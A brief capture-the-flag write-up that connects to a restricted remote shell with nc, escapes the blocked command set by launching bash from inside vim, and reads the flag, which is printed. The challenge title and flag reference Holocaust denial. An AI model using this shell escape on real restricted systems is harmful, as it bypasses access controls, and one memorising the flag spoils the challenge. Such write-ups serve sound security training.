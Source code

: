 # Holocaust Deniers

```
nc 103.177.232.41 5008
```

We connect to the limited remote shell, and notice that most common commands are blocked.

However we notice that vi/vim is still a functional command.

We open vim and type in `:!bash` to run another instance of the bash terminal within vim.

```
$ cat flag.txt
```

Flag: **cruX{17_d1d_n07_h4pp3n_b3c4u53_1_541d_50}**
